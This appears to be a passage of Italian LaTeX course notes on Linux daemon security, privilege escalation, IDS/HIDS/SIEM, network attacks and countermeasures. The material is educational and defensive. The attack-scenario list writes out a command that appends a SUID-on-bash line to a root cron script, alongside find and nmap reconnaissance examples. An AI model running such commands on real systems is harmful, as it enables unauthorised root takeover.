\textbf{Regola di sintassi:} Di default, l'azione viene eseguita quando l'ora corrente corrisponde a tutti i selettori (vengono valutati in \textbf{AND} logico). \textbf{ECCEZIONE:} se vengono specificati (cioè sono diversi da \texttt{*}) contemporaneamente sia il \textit{giorno del mese} (es. il 15) sia il \textit{giorno della settimana} (es. il 6 per Sabato), i due campi vengono valutati in \textbf{OR logico}. L'azione partirà sia il giorno 15 del mese, sia tutti i sabati.

\begin{itemize}
	\item \textbf{\texttt{atd}}: esegue comandi una tantum in un momento specifico.
	\begin{itemize}
		\item Comandi: \texttt{at}, \texttt{atq}, \texttt{atrm}, \texttt{batch}.
	\end{itemize}
\end{itemize}

\subsection{D-Bus e Udev (IPC e Gestione Eventi)}
\begin{itemize}
	\item \textbf{D-Bus}: IPC per applicazioni desktop e di sistema. Configurazioni in \texttt{/etc/dbus-1/}.
	\item \textbf{Udev}: gestisce la creazione dei device file quando l'hardware viene connesso. Le regole in \texttt{/etc/udev/rules.d} definiscono azioni da eseguire.
	\begin{itemize}
		\item \textbf{Vulnerabilità}: Regole \texttt{udev} male configurate possono eseguire script arbitrari quando un dispositivo viene inserito (es. una chiavetta USB preparata ad hoc).
	\end{itemize}
\end{itemize}

\subsection{Init System: SysVinit vs Systemd}
Il processo \texttt{init} (PID 1) è il primo ad essere avviato e gestisce l'inizializzazione del sistema.

\subsubsection{SysVinit (Tradizionale)}
\begin{itemize}
	\item Configurazione: \texttt{/etc/inittab}.
	\item \textbf{Runlevel}: definiti dalle directory \texttt{/etc/rcN.d/}, contenenti symlink a script in \texttt{/etc/init.d/}.
	\item \textbf{Single User Mode}: se interrotto al boot, avvia una shell di root senza password (mitigabile con password del boot loader).
	\item \textbf{Respawn}: \texttt{init} riavvia automaticamente i processi configurati con \texttt{respawn} (es. terminali virtuali \texttt{getty}).
\end{itemize}

\subsubsection{Systemd (Moderno)}
\begin{itemize}
	\item Basato su \textbf{Unit} (Service, Socket, Timer, Target, Mount, \dots).
	\item \textbf{Path delle Unit}:
	\begin{itemize}
		\item \texttt{/lib/systemd/system/} (definizioni di sistema)
		\item \texttt{/etc/systemd/system/} (personalizzazioni, prioritarie)
	\end{itemize}
	\item \textbf{Comandi di controllo}:
	\begin{itemize}
		\item \texttt{systemctl start/stop/status servicename} (azione immediata)
		\item \texttt{systemctl enable/disable servicename} (persistente al boot)
	\end{itemize}
	\item \textbf{Vantaggio di sicurezza}: I file di servizio personalizzati in \texttt{/etc/systemd/system/} possono ridefinire comandi di avvio (\texttt{ExecStart}). Se un utente può scrivere in quella directory, può facilmente creare un servizio malevolo eseguito come root.
\end{itemize}

\noindent\rule{\textwidth}{0.4pt}

\section{Attacchi di Privilege Escalation sui Demoni}

\subsection{Scenario di Attacco Tipico}
\begin{enumerate}
	\item \textbf{Ricognizione}: L'attaccante cerca file/directory scrivibili da tutti (\texttt{find / -writable -type d 2>/dev/null}).
	\item \textbf{Individuazione} di script eseguiti da \texttt{cron} di root o regole \texttt{udev} modificabili.
	\item \textbf{Iniezione} di codice malevolo (es. \texttt{echo 'chmod u+s /bin/bash' >> /etc/cron.hourly/backup}).
	\item \textbf{Attesa} dell'esecuzione automatica o \textbf{Trigger} dell'evento (es. inserimento USB).
	\item \textbf{Elevazione} a root.
\end{enumerate}

\subsection{Mitigazioni}
\begin{itemize}
	\item \textbf{Principio del minimo privilegio} anche per i processi di sistema (usare capabilities specifiche invece di root).
	\item \textbf{File System Read-Only} per le directory di sistema (\texttt{/bin}, \texttt{/sbin}, \texttt{/lib}).
	\item \textbf{Monitoraggio} delle directory critiche (\texttt{/etc/cron.d}, \texttt{/etc/systemd/system}) con strumenti come \texttt{auditd} o \texttt{AIDE}.
	\item \textbf{Secure Boot} e integrità del kernel per prevenire il caricamento di moduli malevoli.
\end{itemize}

\chapter{Misconfiguration Attacks and HIDS}

\section{Teoria del Monitoraggio e Rilevamento (IDS/IPS/SIEM)}

\subsection{1. Concetti Base}

\textbf{Le 7 fasi di un attacco (Cyber Kill Chain):}
\begin{enumerate}
	\item \textbf{Recon:} Ricognizione e raccolta informazioni sul bersaglio.
	\item \textbf{Weaponization:} Creazione del payload malevolo (es. exploit unito a una backdoor).
	\item \textbf{Delivery:} Consegna del payload alla vittima (es. phishing, USB, exploit web).
	\item \textbf{Exploitation:} Sfruttamento effettivo della vulnerabilità.
	\item \textbf{Installation:} Installazione del malware/backdoor sul sistema per garantire persistenza.
	\item \textbf{Command \& Control (C2):} Creazione di un canale di comunicazione remoto per controllare la macchina compromessa.
	\item \textbf{Exfiltration (o Actions on Objectives):} Furto dei dati o raggiungimento dell'obiettivo finale (es. distruzione, ransomware).
\end{enumerate}

Le fasi di un attacco lasciano tracce; il monitoraggio serve a individuarle tempestivamente.

\begin{itemize}
	\item \textbf{IDS (Intrusion Detection System):} Rileva tentativi di attacco. Può operare \textit{signature-based} (riconosce pattern noti) o \textit{anomaly-based} (riconosce deviazioni dalla normalità).
	\item \textbf{IPS (Intrusion Prevention System):} Un IDS attivo, in grado di interagire con sistemi di controllo (es. firewall) per bloccare il traffico malevolo.
	\item \textbf{SIEM (Security Information and Event Management):} Piattaforma che aggrega, normalizza e correla log/eventi da fonti multiple, generando alert.
\end{itemize}

\textbf{Parametri di qualità:}\\
Il rilevamento è un compromesso tra due errori:
\begin{itemize}
	\item \textbf{Falso Positivo (FP):} Segnalazione errata di un evento innocuo.
	\item \textbf{Falso Negativo (FN):} Attacco reale che passa inosservato (non genera segnalazione).
\end{itemize}

\subsection{2. NIDS, HIDS ed EDR}

Esistono due strategie principali di rilevazione:

\textbf{NIDS (Network-based IDS):} Analizza il traffico di rete intercettato.
\begin{itemize}
	\item \textit{Vantaggi:} Visibilità su tutta la rete; un suo malfunzionamento non tocca gli endpoint.
	\item \textit{Svantaggi:} Alti Falsi Positivi; non può esaminare traffico cifrato; rischia sovraccarichi o evasioni (es. frammentazione pacchetti); richiede hardware molto potente per reti veloci ($>$10 Gbps).
\end{itemize}

\textbf{HIDS (Host-based IDS):} Processo in userland installato sul singolo sistema. Monitora filesystem, processi e log.
\begin{itemize}
	\item \textit{Vantaggi:} Bassi Falsi Positivi (esamina l'interazione finale col target); economico e computazionalmente distribuito.
	\item \textit{Svantaggi:} Punti ciechi (non vede attacchi che non toccano il filesystem o scansioni di rete silenti); valuta solo il traffico in ingresso (ingress) e non in uscita (egress); se l'OS è compromesso, l'HIDS può essere neutralizzato.
\end{itemize}

\textbf{EDR (Endpoint Detection and Response):} Un HIDS fortemente integrato nel kernel (OS-level).
\begin{itemize}
	\item \textit{Vantaggi:} Raccoglie eventi da device driver, hook e chiamate di sistema; analizza i binari a run-time; ha capacità anti-tampering e può isolare attivamente i processi.
	\item \textit{Svantaggi:} Difficile interfacciamento col SO (hooking, minifilters); soluzioni open-source rare e costose.
\end{itemize}

\subsection{3. Strumenti NIDS Principali}
\begin{itemize}
	\item \textbf{Snort:} Architettura basata su libpcap, motore \textit{rules-based} estendibile con plug-in. Richiede mesi di addestramento per essere configurato bene.
	\item \textbf{Suricata:} Compatibile con le regole Snort, ma riconosce automaticamente il tipo di traffico (salva log specifici, es. certificati X.509). Agisce anche da IPS e supporta il Deep Packet Inspection e script LUA.
	\item \textbf{Zeek (ex Bro):} NON usa firme. Analizza tutto il traffico decodificando i protocolli. Usa un potentissimo motore di scripting (es. per calcolare l'entropia del filesystem via SMB e rilevare ransomware in azione).
\end{itemize}

\subsection{4. Strumenti HIDS e Integrity Check}
La rilevazione su host si basa spesso sull'\textbf{Integrity Check}: si crea un DB in uno stato "pulito" e si confronta il filesystem.

\begin{itemize}
	\item \textbf{AIDE / Tripwire / AFICK:} Verificano hash, permessi e metadati.
\end{itemize}

\begin{quote}
	\textbf{Attenzione da esame:} per evitare compromissioni, il DB e la configurazione devono usare firme HMAC, essere scritti su supporti non riscrivibili (read-only) o eseguiti da sistemi affidabili/di ripristino.
\end{quote}

\subsection{5. Log e SIEM}
I log di sistema e kernel sono vitali. Se non protetti (es. con invio a server remoti), l'attaccante li cancellerà.

\begin{itemize}
	\item \textbf{Stack Elastic (Open Source):} Composto da \textbf{Logstash} (raccolta/pipeline), \textbf{Elasticsearch} (database NoSQL) e \textbf{Kibana} (visualizzazione).
	\item \textbf{OSSEC (HIDS / SIEM base):} Architettura client-server cifrata. Usa \textbf{decoders} (per fare il parsing dei log ed estrarre i campi) e \textbf{rules} (gerarchiche, da priorità 1 a 15, che analizzano i dati ed effettuano pattern matching). Le regole scatenano \textbf{alerts} (es. RTBL, esecuzione script).
	\item \textbf{Wazuh:} Fork open source moderno di OSSEC, con integrazione diretta per Elastic Stack e controlli di compliance OpenSCAP.
\end{itemize}

\textbf{Funzionalità di un SIEM (Security Information and Event Management):}\\
Un SIEM non si limita a raccogliere log, ma esegue 4 fasi formali:
\begin{enumerate}
	\item \textbf{Aggregazione:} Raccoglie, normalizza e consolida i dati da fonti eterogenee (creando un sistema di interrogazione centralizzato).
	\item \textbf{Correlazione:} Collega eventi con attributi comuni in pacchetti significativi, generando avvisi automatici in base a regole.
	\item \textbf{Monitoraggio:} Fornisce dashboard e grafici per lo stato corrente e la conformità (compliance).
	\item \textbf{Ritenzione:} Conservazione a lungo termine sicura per scopi di analisi forense.
\end{enumerate}

\noindent\rule{\textwidth}{0.4pt}

\section{Teoria della Privilege Escalation e HIDS}

Una volta ottenuto l'accesso al sistema come utente non privilegiato, l'attaccante tenta di elevare i propri privilegi (es. diventare root) sfruttando vulnerabilità locali o errori di configurazione (\textit{misconfigurations}) nei processi di sistema.

\subsection{1. Vettori di Privilege Escalation (Misconfigurations)}
\begin{itemize}
	\item \textbf{SUID e SGID:} Il bit SUID (\textit{Set User ID}) fa in modo che un processo venga eseguito con l'identità dell'utente proprietario del file (spesso root) invece che dell'utente che lo lancia. Se assegnato erroneamente a comandi standard come \texttt{cp} o \texttt{find}, un attaccante può sovrascrivere o leggere file critici del sistema operativo.
	\item \textbf{Capabilities:} Linux suddivide i privilegi monolitici di root in unità discrete. Ad esempio, \texttt{CAP\_DAC\_OVERRIDE} permette a un eseguibile di ignorare i controlli sui permessi del filesystem. Assegnare capabilities inattese a eseguibili standard (come \texttt{vim} o \texttt{chmod}) è un vettore diretto di escalation.
	\item \textbf{ACL (Access Control List):} Le ACL estendono i permessi standard UNIX. Una ACL troppo permissiva su file configurazionali (come \texttt{/etc/passwd} o \texttt{/etc/sudoers}) consente a un utente non privilegiato di alterare configurazioni critiche.
	\item \textbf{Sudoers ed Esecuzione Pianificata:} Permettere a un utente l'uso di comandi interattivi tramite \texttt{sudo} (es. \texttt{vi}) consente la "shell escape" spawnando una shell di root direttamente dall'applicativo. Inoltre, file eseguibili con permessi di scrittura troppo larghi che vengono lanciati automaticamente da demoni privilegiati (cron, udev, systemd) fungono da "bombe logiche".
\end{itemize}

\subsection{2. Rilevamento tramite HIDS e Integrity Check}
Gli HIDS (\textit{Host-based IDS}) monitorano il filesystem, i processi e i log direttamente sull'endpoint, garantendo un basso tasso di falsi positivi rispetto ai controlli di rete (NIDS).
\begin{itemize}
	\item \textbf{Integrity Checking (es. AIDE, Tripwire):} Strumenti di tipo \textit{signature-based} che memorizzano in un database lo stato di riferimento del filesystem ("pulito"), calcolando hash crittografici, permessi e metadati, e confrontandoli periodicamente.
\end{itemize}

\begin{quote}
	\textbf{Uso appropriato (Trabocchetto d'esame):} Per evitare compromissioni da parte di un attaccante già nel sistema, il database delle firme e l'eseguibile dell'HIDS devono usare firme HMAC, risiedere su supporti \textit{read-only} o in sistemi isolati affidabili.
\end{quote}

\subsection{3. Limiti dell'Integrity Check (Domande d'Esame)}
\begin{itemize}
	\item \textbf{Scope di scansione:} Strumenti come AIDE rilevano minacce (es. rootkit che rimpiazzano binari standard come \texttt{ls}) solo all'interno delle directory esplicitamente configurate. Qualsiasi modifica in aree non monitorate (es. \texttt{/etc}) sfuggirà al controllo.
	\item \textbf{Punti Ciechi:} Un HIDS classico o un integrity checker non rileva attacchi che operano esclusivamente in memoria senza toccare il filesystem, né analizza in alcun modo il traffico uscente (\textit{egress}). Per difese attive con analisi in tempo reale delle system call e reazioni sui processi, si rendono necessari sistemi integrati a livello kernel come gli EDR (\textit{Endpoint Detection and Response}).
\end{itemize}

\chapter{Sicurezza delle Comunicazioni}

\section{Richiami di Reti e Attacchi: Introduzione}

La sicurezza delle comunicazioni riguarda la protezione dei dati mentre transitano su reti potenzialmente ostili. Comprendere come funziona Internet a livello tecnico è prerequisito fondamentale per capire le superfici di attacco e le contromisure. Le minacce si dividono in \textbf{attacchi passivi} (non modificano i dati, compromettono la riservatezza) e \textbf{attacchi attivi} (minacciano integrità, autenticità e disponibilità).

\noindent\rule{\textwidth}{0.4pt}

\section{Architettura di Rete: Richiami}

\subsection{Internet come rete di reti}
Internet è una grande \textbf{rete di reti}: l'unità fondamentale è la \textbf{network IP} (o subnet), che può essere immaginata come un'isola. Gli host di un'isola comunicano tra loro grazie alla tecnologia fisica sottostante (Ethernet, Wi-Fi, ecc.). Le isole sono interconnesse da apparati specializzati detti \textbf{router} o \textbf{gateway}, che operano dal livello 1 al livello 3 del modello OSI.

Ogni dispositivo in rete ha due tipologie di indirizzo:
\begin{itemize}
	\item \textbf{Indirizzo globale (IP):} valido in tutta la rete, globalmente univoco, assegnato tramite procedure centralizzate. Le applicazioni si "conoscono" come endpoint IP.
	\item \textbf{Indirizzo locale (MAC):} valido solo all'interno della LAN/subnet, assegnato localmente. L'inoltro fisico dei frame avviene tramite indirizzi MAC.
\end{itemize}

La distinzione tra \textbf{rete logica} (la subnet IP di appartenenza) e \textbf{rete fisica} (la LAN a cui si è effettivamente connessi) è centrale: l'architettura a strati nasconde gli indirizzi fisici e consente alle applicazioni di lavorare solo con IP.

\subsection{Switch e Hub}
La rete Ethernet cablata tipica è basata su \textbf{switch}. La differenza rispetto all'hub è fondamentale dal punto di vista della sicurezza:

\begin{table}[H]
	\centering
	\begin{tabular}{|l|p{6cm}|p{5cm}|}
		\hline
		\textbf{Dispositivo} & \textbf{Modalità di trasmissione} & \textbf{Capacità aggregata} \\ \hline
		\textbf{Hub} & Broadcast (mezzo condiviso) & = capacità singola porta \\ \hline
		\textbf{Switch} & Commutazione selettiva (unicast) & > capacità singola porta \\ \hline
	\end{tabular}
\end{table}

Lo switch funziona come \textbf{learning bridge}: costruisce una tabella CAM (Content Addressable Memory) che associa ogni MAC address alla porta su cui è raggiungibile. Se un MAC non è in tabella, il frame viene mandato in broadcast su tutte le porte — comportamento sfruttato dal \textbf{MAC flooding}.

\subsection{ARP — Address Resolution Protocol}
Poiché ogni host ha sia un IP che un MAC, serve un meccanismo di traduzione. \textbf{ARP (RFC 826)} risolve questa esigenza:
\begin{enumerate}
	\item L'host sorgente invia una \textbf{ARP request in broadcast}: "Chi ha l'IP X? Rispondimi al MAC Y"
	\item Tutti gli host della LAN ricevono la richiesta e aggiornano la propria cache ARP (caching opportunistico)
	\item L'host con IP X risponde con una \textbf{ARP reply in unicast} comunicando il proprio MAC
	\item Il richiedente aggiorna la propria cache e può ora inviare frame al livello 2
\end{enumerate}

\textbf{Vulnerabilità critica:} ARP non è autenticato. Chiunque può inviare ARP reply gratuite (non sollecitate) per associare un IP arbitrario al proprio MAC.

\subsection{Routing IP}
Quando un host deve inviare un datagramma, consulta la propria tabella di routing e decide:
\begin{itemize}
	\item \textbf{Direct delivery:} IP sorgente e destinatario sono nella stessa subnet $\to$ il frame viene consegnato direttamente usando ARP per risolvere il MAC.
	\item \textbf{Indirect delivery:} IP destinatario è in un'altra subnet $\to$ il frame viene inviato al gateway (router), che lo instrada verso la rete di destinazione, hop per hop.
\end{itemize}

Il protocollo IP è \textbf{agnostico} rispetto alla tecnologia sottostante: opera ugualmente su Ethernet, Wi-Fi, fibra ottica, ecc.

\noindent\rule{\textwidth}{0.4pt}

\section{Attacchi Passivi}

Gli attacchi passivi non modificano i dati in transito, ma sono comunque dannosi: permettono la ricognizione preliminare e compromettono la riservatezza. Usati su se stessi, rientrano nel \textbf{vulnerability assessment}.

\subsection{Scanning}
La scansione è uno dei primi passi della kill chain (fase di \textbf{Recon}). Si possono scandire:
\begin{itemize}
	\item \textbf{Reti:} per identificare gli indirizzi IP attivi e raggiungibili.
	\item \textbf{Host:} per identificare porte TCP/UDP aperte, versione del sistema operativo e dei servizi in esecuzione.
\end{itemize}

Lo strumento più diffuso è \textbf{nmap}. Esempio di scansione ping su un range di IP:
\begin{lstlisting}[language=bash]
	nmap -sP 137.204.57.200-205
	-> 2 host attivi su 6 scansionati
\end{lstlisting}

Esempio di scansione aggressiva con fingerprinting:
\begin{lstlisting}[language=bash]
	nmap -A 137.204.57.104
	-> porta 21 (vsftpd 3.0.2), 22 (OpenSSH 6.6.1p1), 80 (Apache 2.4.7)
\end{lstlisting}

La \textbf{loudness} della scansione è un trade-off: per vulnerability assessment si può essere aggressivi, ma in un attacco reale si preferiscono tecniche di scansione silenziosa per eludere IDS/IPS.

\subsection{Sniffing}
Lo sniffing cattura il traffico in transito sulla rete e richiede accesso fisico ai dati:
\begin{itemize}
	\item \textbf{Reti wireless:} tutto il traffico dovrebbe essere cifrato, ma molti protocolli hanno falle.
	\item \textbf{Reti cablate:} le tecnologie di cifratura a livello 2 esistono (802.1x per autenticazione porte, 802.1AE per cifratura traffico) ma sono raramente usate.
\end{itemize}

Su reti cablate con switch, un attaccante deve prima ottenere accesso al traffico — tipicamente tramite \textbf{MAC flooding} o \textbf{ARP poisoning} (attacchi attivi che abilitano il successivo sniffing passivo).

\subsection{MAC Flooding}
L'attaccante satura la tabella CAM dello switch inviando un flood di frame con MAC sorgenti falsi e casuali. Quando la CAM è piena, lo switch non riesce più a memorizzare nuove associazioni e torna a comportarsi come un \textbf{hub} — mandando ogni frame in broadcast su tutte le porte. L'attaccante, connesso a una qualsiasi porta, riceve tutto il traffico della rete.

\subsection{Wireless Key Recovery}
Le quattro generazioni di protezione WiFi presentano vulnerabilità diverse:

\begin{table}[H]
	\centering
	\begin{tabular}{|l|l|p{6cm}|}
		\hline
		\textbf{Standard} & \textbf{Meccanismo} & \textbf{Vulnerabilità principale} \\ \hline
		\textbf{WEP} & RC4 stream cipher + IV 24-bit & IV si ripete: recupero chiave con sufficiente traffico cifrato \\ \hline
		\textbf{WPA} & TKIP (128-bit IV) + PSK o 802.1x & Nessuna forward secrecy in modalità PSK \\ \hline
		\textbf{WPA2} & AES-CCMP & KRACK (2017): reinstallazione chiave $\to$ azzeramento nonce \\ \hline
		\textbf{WPA3} & SAE (Dragonfly handshake) & Dragonblood: downgrade a WPA2 (MITM) o password partitioning \\ \hline
	\end{tabular}
\end{table}

\textbf{KRACK (Key Reinstallation Attack):} Android e Linux possono essere indotti a reinstallare una chiave di cifratura completamente azzerata (tutti zero), permettendo la decifratura di un gran numero di pacchetti — potenzialmente contenenti credenziali aziendali valide.

\textbf{WPA3/Dragonblood:} due vettori di attacco — il primo sfrutta la retrocompatibilità con WPA2 per forzare un downgrade tramite MITM; il secondo sfrutta implementazioni scorrette del handshake Dragonfly per effettuare password partitioning.

\noindent\rule{\textwidth}{0.4pt}

\section{Attacchi Attivi}

Gli attacchi attivi minacciano \textbf{integrità, autenticità e disponibilità}. Spoofing e hijacking sono spesso passi preliminari verso attacchi più impattanti: rubare una rete per originare spam, fingere un'identità per rubare credenziali, dirottare il traffico per fare sniffing.

\subsection{Layer 2: Spoofing MAC e ARP Poisoning}
\textbf{Spoofing MAC:} assumere l'identità di un dispositivo a livello di indirizzo fisico. Molto efficace per bypassare ACL basate su MAC o per ottenere tutto il traffico destinato alla vittima. Limitato alla LAN locale. Tecnicamente mitigabile con 802.1x, ma organizzativamente complesso — raramente implementato.

\textbf{ARP Poisoning:} l'attaccante invia gratuitous ARP reply non sollecitate avvelenando la cache ARP delle vittime (tipicamente il gateway):
\begin{itemize}
	\item Afferma che l'IP del gateway corrisponde al proprio MAC.
	\item Gli host aggiornano la cache e inviano il traffico destinato al gateway all'attaccante.
	\item L'attaccante può fare da man-in-the-middle: intercettare, modificare e ritrasmettere il traffico.
\end{itemize}
È il modo più comune per posizionarsi sul percorso dei dati in una LAN Ethernet.

\subsection{Layer 3: IP Spoofing e BGP Hijacking}
\textbf{IP Spoofing:} assumere l'indirizzo IP di una vittima. Su una LAN è efficace per dirottare traffico. Su Internet il routing invierà le risposte all'IP mimato (l'attaccante non può riceverle) $\to$ attacchi di \textbf{backscatter} (inondare la vittima di risposte che non ha richiesto).

\textbf{IP/BGP Hijacking:} i router si scambiano informazioni di routing tramite BGP, che \textbf{non è autenticato}. Un AS (Autonomous System) può annunciare prefissi IP non suoi, dirottando il traffico a scala globale.

\begin{quote}
	\textbf{Caso famoso — YouTube vs Pakistan Telecom (2008):} Il governo pakistano ordina il blocco di YouTube. Pakistan Telecom annuncia internamente un prefisso più specifico (\texttt{/24}) del prefisso di YouTube (\texttt{/22}), puntando a \texttt{null0} (interfaccia scarto). Per un errore di configurazione, questa route viene redistribuita su BGP e propagata globalmente tramite PCCW. La maggior parte del traffico mondiale verso YouTube finisce in Pakistan e ottiene nulla. YouTube risponde annunciando due \texttt{/25} ancora più specifici. PCCW disattiva il peering con Pakistan Telecom dopo circa 2 ore.
\end{quote}

Il principio del \textbf{longest prefix match} fa sì che il prefisso più specifico vinca — e questo è il meccanismo sfruttato dal BGP hijacking.

\subsection{Layer 4-7: Session Hijacking}
Se il dirottamento IP avviene \textbf{dopo} un'autenticazione, bisogna gestire i livelli superiori:
\begin{itemize}
	\item \textbf{UDP} è connectionless: il dirottamento è banale.
	\item \textbf{TCP} richiede la conoscenza dei numeri di sequenza corretti (sliding window) — difficile senza sniffing.
	\item I protocolli applicativi usano spesso \textbf{cookie HTTP} come session identifier.
\end{itemize}

In entrambi i casi l'attaccante può tentare di:
\begin{enumerate}
	\item \textbf{Indovinare} (brute force) — spesso impraticabile.
	\item \textbf{Sfruttare lo sniffing} — se già posizionato sul percorso dei dati (tramite ARP poisoning).
\end{enumerate}

\subsection{DNS Hijacking e Pharming}
Il DNS è il sistema di traduzione nomi$\to$IP ed è caratterizzato da tre debolezze strutturali:
\begin{itemize}
	\item \textbf{Non autenticato} (nessuna verifica dell'identità del rispondente)
	\item \textbf{Distribuito} (molti server autoritativi, ognuno attaccabile)
	\item \textbf{Fortemente cached} (molti livelli di caching $\to$ un'informazione falsa si propaga e persiste)
\end{itemize}

\textbf{DNS Spoofing diretto:} un server DNS malevolo risponde con l'IP dell'attaccante invece di quello legittimo.

\textbf{Pharming (DNS spoofing indiretto):} attacco combinato che non richiede il controllo del DNS:
\begin{enumerate}
	\item L'utente visita una pagina HTML (anche inconsapevolmente, tramite link o pubblicità).
	\item La pagina contiene uno script malevolo.
	\item Lo script, usando la password di default del router domestico (spesso mai cambiata), riprogramma il DNS del router.
	\item Da quel momento, tutte le richieste DNS del client vengono risolte dal nameserver dell'attaccante.
\end{enumerate}

Questo attacco è particolarmente insidioso perché non richiede compromettere il DNS globale — basta il router di casa.

\textbf{DNS Tunnelling:} poiché le query e le risposte DNS possono contenere dati arbitrari, il protocollo può essere usato come canale covert per \textbf{esfiltrare dati} da sistemi infetti o per far comunicare un bot con il suo Command \& Control (C\&C), bypassando firewall che non ispezionano il traffico DNS.

\subsection{(Distributed) Denial of Service}
Qualsiasi attacco di hijacking può essere usato per causare un'interruzione mirata:
\begin{itemize}
	\item \textbf{TCP RST injection:} inviare un segmento con flag RST e numero di sequenza corretto abbatte la connessione TCP.
	\item \textbf{SYN flood:} saturare le half-open connections del server esaurendo la memoria.
\end{itemize}

\textbf{DDoS:} molti host coordinati (botnet) saturano la capacità di rete o le risorse di calcolo della vittima. Le \textbf{botnet} sono reti di computer compromessi (zombie) controllati tramite C\&C.
\begin{itemize}
	\item Botnet IoT: \textbf{Mirai}, \textbf{Bashlite} — sfruttano dispositivi IoT con credenziali di default.
	\item \textbf{DNS Amplification:} sfrutta server DNS open resolver per amplificare il traffico verso la vittima (rapporto di amplificazione fino a 70x); nasconde l'origine reale dell'attacco.
\end{itemize}

\noindent\rule{\textwidth}{0.4pt}

\section{Contromisure: Canali Sicuri}

La risposta fondamentale agli attacchi sulle comunicazioni è l'uso di \textbf{canali sicuri} a diversi layer del modello OSI.

\subsection{Data Link Layer: VLAN}
Le \textbf{VLAN} (Virtual LAN) segmentano logicamente una rete fisica in più domini broadcast separati, anche se i dispositivi sono connessi allo stesso switch fisico. Il traffico tra VLAN deve passare per un router (o layer-3 switch), dove possono essere applicate policy di sicurezza.
\begin{itemize}
	\item Limitano la portata degli attacchi di layer 2 (ARP poisoning, MAC flooding) al solo segmento VLAN.
	\item Permettono separazione tra reti (es. rete utenti, rete server, rete management) su infrastruttura condivisa.
\end{itemize}

\subsection{Network Layer: IPSec}
\textbf{IPSec} è un insieme di protocolli per la protezione del traffico IP a livello 3:
\begin{itemize}
	\item \textbf{AH (Authentication Header):} garantisce autenticità e integrità del pacchetto (no cifratura).
	\item \textbf{ESP (Encapsulating Security Payload):} garantisce autenticità, integrità \textbf{e cifratura}.
	\item \textbf{IKE (Internet Key Exchange):} protocollo per la negoziazione e gestione delle chiavi.
\end{itemize}

Modalità operative:
\begin{itemize}
	\item \textbf{Transport mode:} protegge solo il payload IP (tra due host).
	\item \textbf{Tunnel mode:} incapsula l'intero pacchetto IP in un nuovo pacchetto (base delle VPN).
\end{itemize}

IPSec è la tecnologia sottostante delle \textbf{VPN site-to-site} e di alcune \textbf{VPN client}.

\subsection{Transport Layer: TLS}
\textbf{TLS (Transport Layer Security)} è il protocollo di sicurezza più diffuso su Internet, usato da HTTPS, SMTPS, IMAPS, ecc. Opera sopra TCP e garantisce:
\begin{itemize}
	\item \textbf{Confidenzialità:} cifratura del canale (negoziazione algoritmo durante handshake).
	\item \textbf{Autenticità del server:} tramite certificati X.509 firmati da CA (Certificate Authority).
	\item \textbf{Integrità:} HMAC su ogni record trasmesso.
	\item \textbf{Forward secrecy} (nelle versioni moderne): le chiavi di sessione sono effimere — la compromissione della chiave privata del server non permette di decifrare sessioni passate.
\end{itemize}

\textbf{HTTPS Stripping:} attacco MITM in cui l'attaccante, posizionato sul percorso (es. tramite ARP poisoning), intercetta la connessione HTTPS. L'attaccante mantiene una connessione HTTPS legittima con il server ma serve la pagina in HTTP non cifrato al client, che non si accorge del downgrade. Contromisura: \textbf{HSTS (HTTP Strict Transport Security)} — il browser memorizza che quel dominio deve usare solo HTTPS e rifiuta connessioni HTTP.

\noindent\rule{\textwidth}{0.4pt}

\section{Modello a Livelli e Superfici di Attacco}

Ogni livello dello stack introduce vulnerabilità specifiche che si sommano a quelle dei livelli superiori:

\begin{table}[H]
	\centering
	\begin{tabular}{|l|l|p{4cm}|p{3.5cm}|}
		\hline
		\textbf{Layer} & \textbf{Protocolli vulnerabili} & \textbf{Attacco principale} & \textbf{Contromisura} \\ \hline
		Data Link (L2) & Ethernet, ARP & MAC spoofing, ARP poisoning, MAC flooding & 802.1x, VLAN, 802.1AE \\ \hline
		Network (L3) & IP, BGP & IP spoofing, BGP hijacking & IPSec, RPKI (BGP auth) \\ \hline
		Transport (L4) & TCP, UDP & Session hijacking, SYN flood, RST injection & TLS, rate limiting \\ \hline
		Application (L7) & DNS, HTTP & DNS hijacking, pharming, HTTPS stripping & DNSSEC, TLS+HSTS \\ \hline
	\end{tabular}
\end{table}

\chapter{Crittografia}

\section{Introduzione}

La crittografia è l'insieme delle tecniche matematiche e algoritmiche usate per proteggere le informazioni mentre vengono memorizzate o trasmesse. Nella sicurezza delle informazioni le proprietà fondamentali restano riservatezza, integrità, autenticità e disponibilità, ma la crittografia interviene soprattutto sulle prime tre. 

% ISTRUZIONI PER COMPILARE SENZA ERRORI: 
% Quando avrai l'immagine "Slide 3" togli il simbolo % all'inizio delle 5 righe qui sotto e metti il nome del file corretto.
\begin{figure}[H]
	\centering
     
\includegraphics[width=0.7\textwidth]{screenshot004.png}
     \caption{Proprietà della sicurezza e crittografia}
 \end{figure}

Quando il canale non è sicuro, un attaccante può limitarsi a osservare il messaggio violando la riservatezza, oppure alterarlo o sostituirsi a una delle parti compromettendo integrità e autenticità. La crittografia serve quindi a rendere il contenuto incomprensibile a chi non è autorizzato e ad aggiungere meccanismi che permettano di verificare se il dato ricevuto è integro e proviene davvero dal soggetto atteso.

\noindent\rule{\textwidth}{0.4pt}

\section{Tecniche e primitive}

\subsection{Steganografia e crittografia}
